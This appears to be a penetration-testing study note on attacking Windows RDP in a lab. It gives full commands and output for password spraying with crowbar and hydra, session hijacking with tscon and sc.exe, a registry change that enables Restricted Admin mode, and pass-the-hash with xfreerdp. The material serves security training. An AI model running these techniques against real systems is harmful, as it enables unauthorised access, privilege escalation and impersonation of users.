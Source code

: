 ## Enumeration

```sh
nmap -Pn -p3389 192.168.2.143 

Host discovery disabled (-Pn). All addresses will be marked 'up', and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-25 04:20 BST
Nmap scan report for 192.168.2.143
Host is up (0.00037s latency).

PORT     STATE    SERVICE
3389/tcp open ms-wbt-server
```

## Misconfigurations
* Since RDP takes user credentials for authentication, one common attack vector against the RDP protocol is password guessing
* Although it is not common, we could find an RDP service without a password if there is a misconfiguration

**Note:** One caveat on password guessing against Windows instances is that you should consider the client's password policy. In many cases, a user account will be locked or disabled after a certain number of failed login attempts. In this case, we can perform a specific password guessing technique called `Password Spraying`. This technique works by attempting a single password for many usernames before trying another password, being careful to avoid account lockout.

* Using the [Crowbar](https://github.com/galkan/crowbar) tool, we can perform a password spraying attack against the RDP service

```sh
cat usernames.txt 

root
test
user
guest
admin
administrator
```

## RDP Password Spraying

```sh
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'

2022-04-07 15:35:50 START
2022-04-07 15:35:50 Crowbar v0.4.1
2022-04-07 15:35:50 Trying 192.168.220.142:3389
2022-04-07 15:35:52 RDP-SUCCESS : 192.168.220.142:3389 - administrator:password123
2022-04-07 15:35:52 STOP
```

```sh
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-25 21:44:52
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 8 login tries (l:2/p:4), ~2 tries per task
[DATA] attacking rdp://192.168.2.147:3389/
[3389][rdp] host: 192.168.2.143   login: administrator   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-25 21:44:56
```

#### RDP Login

```sh
rdesktop -u admin -p password123 192.168.2.143

Autoselecting keyboard map 'en-us' from locale

ATTENTION! The server uses an invalid security certificate which can not be trusted for
the following identified reasons(s);

 1. Certificate issuer is not trusted by this system.
     Issuer: CN=WIN-Q8F2KTAI43A

Review the following certificate info before you trust it to be added as an exception.
If you do not trust the certificate, the connection atempt will be aborted:

    Subject: CN=WIN-Q8F2KTAI43A
     Issuer: CN=WIN-Q8F2KTAI43A
 Valid From: Tue Aug 24 04:20:17 2021
         To: Wed Feb 23 03:20:17 2022

  Certificate fingerprints:

       sha1: cd43d32dc8e6b4d2804a59383e6ee06fefa6b12a
     sha256: f11c56744e0ac983ad69e1184a8249a48d0982eeb61ec302504d7ffb95ed6e57

Do you trust this certificate (yes/no)? yes
```

## Protocol Specific Attacks
* Hijack the user's remote desktop session to escalate our privileges and impersonate the account
* In an Active Directory environment, this could result in us taking over a Domain Admin account or furthering our access within the domain

#### RDP Session Hijacking
* In this case, we are `juurena` with `UserID = 2` who has `Administrator` privileges
* Our goal is to hijack the user `lewen` (User ID = 4), who is also logged in via RDP

![](../../Screenshots/rdp_session-1-2.png)

* To successfully impersonate a user without their password, we need to have `SYSTEM` privileges and use the Microsoft [tscon.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon) binary that enables users to connect to another desktop session
* Works by specifying which `SESSION ID` (`4` for the `lewen` session in our example) we would like to connect to which session name (`rdp-tcp#13`, which is our current session)

```powershell
C:\htb> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

* We can use tools like [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) or [Mimikatz](https://github.com/gentilkiwi/mimikatz) to obtain `SYSTEM` privileges
* A simple trick is to create a Windows service that, by default, will run as `Local System` and will execute any binary with `SYSTEM` privileges
	* Use Microsoft [sc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create) binary
	* Specify service name (`sessionhijack`) and the `binpath` (command to execute)
	* Once the service is started, a new terminal with the `lewen` user session will appear

```powershell
query user

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM

C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

[SC] CreateService SUCCESS
```

```powershell
C:\htb> net start sessionhijack
```

_Note: This method no longer works on Server 2019._

## RDP Pass-the-Hash (PtH)
* we only have the NT hash of the user obtained from a credential dumping attack such as [SAM](https://en.wikipedia.org/wiki/Security_Account_Manager) database, and we could not crack the hash to reveal the plaintext password, we can not use software only available trough a GUI
* In some instances, we can perform an RDP PtH attack to gain GUI access to the target system using tools like `xfreerdp`
* `Restricted Admin Mode`, which is disabled by default, should be enabled on the target host; otherwise, we will be prompted with an error
* However, this can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa`

```powershell
C:\htb> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

```sh
xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9

[09:24:10:115] [1668:1669] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state            
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr                                   
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd                                  
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx cliprdr                                 
[09:24:11:427] [1668:1669] [INFO][com.freerdp.primitives] - primitives autodetect, using optimized                               
[09:24:11:446] [1668:1669] [INFO][com.freerdp.core] - freerdp_tcp_is_hostname_resolvable:freerdp_set_last_error_ex resetting error state
[09:24:11:446] [1668:1669] [INFO][com.freerdp.core] - freerdp_tcp_connect:freerdp_set_last_error_ex resetting error state        
[09:24:11:464] [1668:1669] [WARN][com.freerdp.crypto] - Certificate verification failure 'self signed certificate (18)' at stack position 0
[09:24:11:464] [1668:1669] [WARN][com.freerdp.crypto] - CN = dc-01.superstore.xyz                                                     
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] - VERSION ={                                                              
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        ProductMajorVersion: 6                                           
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        ProductMinorVersion: 1                                           
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        ProductBuild: 7601                                               
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        Reserved: 0x000000                                               
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        NTLMRevisionCurrent: 0x0F                                        
[09:24:11:567] [1668:1669] [INFO][com.winpr.sspi.NTLM] - negotiateFlags "0xE2898235"

<SNIP>
```

**Note:** This will not work against every Windows system we encounter, but it is always worth trying in a situation where we have an NTLM hash, know the user has RDP rights against a machine or set of machines, and GUI access would benefit us in some ways towards fulfilling the goal of our assessment.
